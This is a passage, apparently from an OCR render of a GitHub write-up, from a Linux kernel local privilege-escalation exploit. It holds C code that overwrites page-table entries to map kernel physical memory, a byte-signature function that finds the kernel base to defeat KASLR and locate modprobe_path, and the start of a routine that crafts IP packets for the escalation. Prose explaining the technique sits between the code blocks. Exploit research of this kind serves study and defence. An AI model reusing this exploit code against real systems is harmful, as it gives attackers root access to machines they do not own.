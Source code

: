 ```c
			SPINLOCK(memdump_info->mem_status == MEM_STAT_DO_IO);

			// try an(other) iteration of 0x200000 kernel bytes
			PRINTF_VERBOSE("[*] setting physical address range to 0x%016llx - 0x%016llx\n", memdump_info->iteration_base, memdump_info->iteration_base + 0x200000);

			// set the pages for the other threads PUD data range to kernel memory
			for (unsigned short j=0; j < 512; j++)
				pmd_area[512 + j] = (memdump_info->iteration_base + 0x1000 * j) | 0x8000000000000867;
		}
    } else {
        // ... (more exploit stuff)
    }
}
```

### Finding `modprobe_path` through physical scanning

This part of the exploit is pretty obvious, it iterates through the entire physical memory and utilizes the KASLR bruteforce technique. By scanning for the kernel start in increments of `CONFIG_PHYSICAL_START`, and then scanning manually 80MiB kernel memroy, we can find `modprobe_path` with minimal effort.

The signature for the first page of the kernel is automatically generated.

```c
static int is_kernel_base(unsigned char *addr)
{
	// thanks python
	if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
			memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff\xb9\x01\x01\x00\xc0\x48\x8b\x05", 15) == 0 &&
			memcmp(addr + 0x1a, "\x48\xc7\xc2\x00\x00\x00", 6) == 0 &&
			memcmp(addr + 0x21, "\x48\x29\xd0\x48\x01\xf8\x48\x89\xc2\x48\xc1\xea\x20\x0f\x30\x56\xe8", 17) == 0 &&
			memcmp(addr + 0x34, "\x00\x00\x5e", 3) == 0 &&
			memcmp(addr + 0x43, "\x48", 1) == 0 &&
			memcmp(addr + 0x4d, "\xe8", 1) == 0 &&
			memcmp(addr + 0x50, "\x00\x00\x48\x8d\x3d\xa7\xff\xff\xff\x56\xe8", 11) == 0 &&
			memcmp(addr + 0x5d, "\x00\x00\x5e\x48", 4) == 0 &&
			memcmp(addr + 0x6c, "\x00\x00\x00\x00\xe8", 5) == 0 &&
			memcmp(addr + 0x72, "\x00\x00\x00\x48\x8b\x04\x25", 7) == 0 &&
			memcmp(addr + 0x7d, "\x48", 1) == 0 &&
			memcmp(addr + 0x8d, "\x00\x00", 2) == 0) {
		return 1;
	}

	return 0;	
}

static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
```